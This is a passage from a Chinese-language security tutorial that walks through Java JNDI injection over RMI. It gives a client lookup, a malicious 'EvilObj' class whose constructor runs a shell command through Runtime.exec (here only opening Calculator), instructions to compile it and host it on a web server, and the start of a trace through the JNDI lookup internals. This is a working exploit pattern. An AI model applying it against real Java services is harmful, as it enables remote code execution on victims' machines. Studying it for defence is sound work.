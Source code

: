 ```
    `}`
`}`
```

Server端以RMI Registry注册一个Reference，并将factoryURL指定为localhost

```
package train.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Client `{`
    public static void main(String[] args) throws Exception `{`
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/Foo");
    `}`
`}`
```

Client端比较简单，直接以lookup指定的RMI URL即可。根据上面的过程图，我们可以知道的是最终执行EvilObj的地方是Client端(jndi发起lookup的方法)。最后我们创一个EvilObj

```
/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class EvilObj `{`

    public EvilObj() throws Exception `{`
        Runtime rt = Runtime.getRuntime();
        String[] commands = `{`"/bin/sh", "-c", "open /System/Applications/Calculator.app"`}`;
        rt.exec(commands);
    `}`
`}`
```

`javac EvilObj.java`生成EvilObj.class，然后挂载到一个web服务上就可以了。可以直接选择python来挂载

那么我们来具体看一下lookup函数具体做了什么

首先InitialContext的lookup函数，会根据提供的URL自动选择合适的InitialContext（分离出协议后进行选择），比如此时的InitialContext为rmiURLContext

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b2bfdf7bfbd188cb.png)

继续跟进`com/sun/jndi/toolkit/url/GenericURLContext.java#lookup`

[![](https://p4.ssl.qhimg.com/t01423b34360f0cc223.png)](https://p4.ssl.qhimg.com/t01423b34360f0cc223.png)
